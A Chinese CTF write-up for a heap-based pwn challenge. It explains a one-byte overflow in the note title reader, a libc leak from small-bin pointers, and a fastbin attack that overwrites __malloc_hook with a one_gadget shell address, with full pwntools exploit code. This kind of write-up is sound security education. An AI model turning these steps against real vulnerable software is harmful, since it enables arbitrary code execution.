 ## Preface
比赛的时候没做，现在稍微看了下，还是挺简单的 orz

## checksec

```Assembly
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

### struct

```C
struct title_list
{
    int isused;         // +0x00
    int size;           // +0x04
    char title[0x10];   // +0x08
    (char*) buf;          // +0x18
};// 0x20
```

## Vuln

1. @read_buf读取title存在越界<br>
```C
for ( i = 0; i <= (signed int)a2; ++i )
 {
   if ( read(0, &buf, 1uLL) < 0 )
     exit(1);
   (a1 + i) = buf;
   if ( (char*)(i + a1) == '\n' )
   {
     (char*)(i + a1) = 0;
     return (unsigned int)i;
   }
 }
```

2. read 存在地址泄露

```Assembly
mov     eax, [rbp+$tmp_size]
movsxd  rdx, eax ; nbytes
mov     rax, [rbp+buf]
mov     rsi, rax ; buf
mov     edi, 0 ; fd
call    _read
```

## leak

```Python
for i in range(4):
    add_note(0xf8, chr(0x48+i)*0x9+'\n', chr(0x61+i)*0xf0)
```

```Assembly
000000F800000001 4848484848484848  ........HHHHHHHH
0000000000000048 00000000011E3010  H........0......
000000F800000001 4949494949494949  ........IIIIIIII
0000000000000049 00000000011E3110  I........1......
000000F800000001 4A4A4A4A4A4A4A4A  ........JJJJJJJJ
000000000000004A 00000000011E3210  J........2......
000000F800000001 4B4B4B4B4B4B4B4B  ........KKKKKKKK
000000000000004B 00000000011E3310  K........3......
```
接下来释放两个堆<br>
```Python
delete_note(2)
delete_note(3)
```
因为之前申请了small bin缘故，这里会再堆上存main arena 附件的地址<br>
```Assembly
011E3200  0000000000000000 0000000000000101  ................
011E3210  00007FCB1057FB78 00007FCB1057FB78  x.W.....x.W.....
```
接下来再申请堆，同时控制content为8字节<br>
```Python
add_note(0xf8, 'x'*0x10+chr(0x11), 'l'*0x08)
```
观察堆<br>
```Assembly
011E3200  0000000000000000 0000000000000101  ................
011E3210  6C6C6C6C6C6C6C6C 00007FCB1057FB78  llllllllx.W.....
```

接下来show一下就能读到地址了，然后算出libc地址<br>
```Python
show_note(2)
io.recvuntil("note content: ")
io.recv(0x7)
libc_base_addr = u64(io.recv(8)) - smlbin_area_off
```

## exp
我采用fastbin attack
```Python
payload = 'f'*0x40
payload += p64(0) + p64(0x91)
add_note(0x60, 'x'*0x10+chr(0x60), payload)  # 4
add_note(0x60, '5'*0x9+'\n', 'e'*0x10)  # 5
add_note(0x60, '5'*0x9+'\n', 'e'*0x10)  # 6
add_note(0x60, '7'*0x9+'\n', 'e'*0x10)  # 7
add_note(0x60, '8'*0x9+'\n', 'e'*0x10)  # 8
```
这里利用了@read_buf 1字节溢出<br>
0x011E3410处即为note4<br>
但是由于 'x'*0x10+chr(0x60) 填充，其结构体中buf低字节被修改为0x60。<br>
```Assembly
011E3400  0000000000000000 0000000000000071  ........q.......
011E3410  6666666666666666 6666666666666666  ffffffffffffffff
011E3420  6666666666666666 6666666666666666  ffffffffffffffff
011E3430  6666666666666666 6666666666666666  ffffffffffffffff
011E3440  6666666666666666 6666666666666666  ffffffffffffffff
011E3450  0000000000000000 0000000000000091  ................
011E3460  0000000000000000 0000000000000000  ................
```
接下来只要按顺序free<br>
先构造一个fastbin链表<br>
```Python
delete_note(6)
delete_note(5)
```

```Assembly
011E3470  0000000000000000 0000000000000071  ........q.......
011E3480  00000000011E34E0 6565656565656565  .4......eeeeeeee
011E3490  0000000000000000 0000000000000000  ................
011E34A0  0000000000000000 0000000000000000  ................
011E34B0  0000000000000000 0000000000000000  ................
011E34C0  0000000000000000 0000000000000000  ................
011E34D0  0000000000000000 0000000000000000  ................
011E34E0  0000000000000090 0000000000000070  ........p.......
011E34F0  0000000000000000 6565656565656565  ........eeeeeeee
011E3500  0000000000000000 0000000000000000  ................
011E3510  0000000000000000 0000000000000000  ................
011E3520  0000000000000000 0000000000000000  ................
011E3530  0000000000000000 0000000000000000  ................
011E3540  0000000000000000 0000000000000000  ................
```

然后破坏这个链表，指向一个伪块<br>
```Python
delete_note(4)
payload = 'a'*0x10
payload += p64(0) + p64(0x71)
payload += p64(libc_base_addr+malloc_hook_off-0x03-0x20)
add_note(0x80, 'o'*0x9+'\n', payload)
```
伪堆块主要利用shift malloc_hook上面的字节构造<br>
```Assembly
00007FCB1057FAED  CB1057E260000000 000000000000007F  ...`.W..........
00007FCB1057FAFD  CB10241270000000 CB10240E5000007F  ...p.$.....P.$..
00007FCB1057FB0D  000000000000007F 0000000000000000  ................

libc_2.23.so:00007FCB1057FB10 __malloc_hook db    0
```
最后填充改地址为 exec binsh 地址即可

```Python
payload = chr(0)*3
payload += p64(0)*2
payload += p64(libc_base_addr+execv_binsh_off)
add_note(0x60, '8'*0x9+'\n', payload)
add_note(0x60, '8'*0x9+'\n', payload)
mmenu(1)
io.recvuntil("Please input the note size: ")
io.sendline(str(0x60))
io.interactive()
```
